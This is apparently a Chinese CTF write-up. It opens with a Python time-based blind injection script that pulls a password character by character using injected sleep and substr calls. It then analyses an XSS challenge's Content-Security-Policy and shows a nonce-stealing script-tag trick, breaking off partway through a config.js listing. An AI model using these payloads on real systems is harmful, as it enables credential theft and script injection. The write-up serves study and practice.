 ```python
    char_list = []
    for char_len in range(30):
    	for char in list(char_range):
    		x = "+'{}'+".format(char)
    		y = '+$1.substr({},1)+'.format(char_len)
    		data = {'|':'','|this.*word""\)|':x,'|1;|[]':'+sleep(1000)+','|(this.password_\w+)|[]':y,'|"|':''}
    		#print(data)
    		start_time = time.time()
    		r = requests.post(url, data = data)
    		end_time = time.time()
    		if end_time - start_time>1:
    			char_list.append(char)
    			print(''.join(char_list))
    			break
    
    flag{13fc892df79a86494792e14dcbef25}
```

# bl0g 
题目进去是个留言板系统，可以提交留言，flag只有管理员能看到，也有提交页面url的链接，所以还是一道xss的题目 
题目的SCP规则
```
Content-Security-Policy:
script-src 'self' 'unsafe-inline'

Content-Security-Policy:
default-src 'none'; script-src 'nonce-hAovzHMfA+dpxVdTXRzpZq72Fjs=' 'strict-dynamic'; style-src 'self'; img-src 'self' data:; media-src 'self'; font-src 'self' data:; connect-src 'self'; base-uri 'none
```
一开始不熟悉SCP，一直在想着怎么绕过SCP 
插一个题外话——**常规绕过SCP的方式** 就比如利用浏览器的容错性
在一个script标签之前插入一个`<script name="`的代码块，吃掉后面script标签的nonce的token
```
<script name="
<script nonce="scptoken"></script>
```
浏览器的容错性会让其解释为
```
<script name="<script" nonce="scptoken"></script>
```
从而吃掉别人的标签 这里在提交留言的地方有三个参数 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/3973fee3a7fb3fbf5b940f4c30e31239.png) 
title和content字段都进行的html编码暂时无法逃逸 还有一个effect特效标签，没有进行编码，可以导致用户插入代码 
但插入的代码依旧收到scp的限制无法执行 
![](http://blog.kingkk.com/wp-content/uploads/2018/04/acd8e5e3eb2cf713a059e0e6da520045.png) 
这里允许插入文本的标签附近并没有其他script标签，js遇到无法解析的语法时就不会继续执行，所以之前的方法暂时也行不通 在这里，主要关注到两个js文件 config.js
```javascript
    var effects = {
        'nest': [
            '<script src="/assets/js/effects/canvas-nest.min.js"></script>'
        ],
        '3waves': [
            '<script src="/assets/js/effects/three.min.js"></script>',
            '<script src="/assets/js/effects/three-waves.min.js"></script>'
        ],
        'lines': [
           '<script src="/assets/js/effects/three.min.js"></script>',
           '<script src="/assets/js/effects/canvas-lines.min.js"></script>'
        ],
        'sphere': [
```